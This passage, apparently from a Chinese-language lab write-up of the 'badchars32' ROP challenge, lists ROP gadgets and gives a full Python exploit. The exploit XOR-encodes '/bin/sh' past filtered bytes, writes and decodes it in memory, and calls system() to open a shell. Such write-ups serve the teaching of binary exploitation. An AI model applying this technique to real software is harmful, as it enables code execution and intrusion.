 找到 gadgets：
```
$ ropgadget --binary badchars32 --only "mov|pop|ret|xor"
...
0x08048893 : mov dword ptr [edi], esi ; ret
0x08048896 : pop ebx ; pop ecx ; ret
0x08048899 : pop esi ; pop edi ; ret
0x08048890 : xor byte ptr [ebx], cl ; ret
```

整个利用过程就是写入前编码，使用前解码，下面是 payload：
```python
from zio import *

xor_ebx_cl  = 0x08048890
pop_ebx_ecx = 0x08048896
pop_esi_edi = 0x08048899
mov_edi_esi = 0x08048893

system_plt  = 0x080484e0
data_addr   = 0x0804a038

# encode
badchars    = [0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73]
xor_byte    = 0x1
while(1):
    binsh = ""
    for i in "/bin/sh\x00":
        c = ord(i) ^ xor_byte
        if c in badchars:
            xor_byte += 1
            break
        else:
            binsh += chr(c)
    if len(binsh) == 8:
        break

# write
payload  = "A"*44
payload += l32(pop_esi_edi)
payload += binsh[:4]
payload += l32(data_addr)
payload += l32(mov_edi_esi)
payload += l32(pop_esi_edi)
payload += binsh[4:8]
payload += l32(data_addr + 4)
payload += l32(mov_edi_esi)

# decode
for i in range(len(binsh)):
    payload += l32(pop_ebx_ecx)
    payload += l32(data_addr + i)
    payload += l32(xor_byte)
    payload += l32(xor_ebx_cl)

# run
payload += l32(system_plt)
payload += "BBBB"
payload += l32(data_addr)

io = zio('./badchars32')
io.writeline(payload)
io.interact()
```
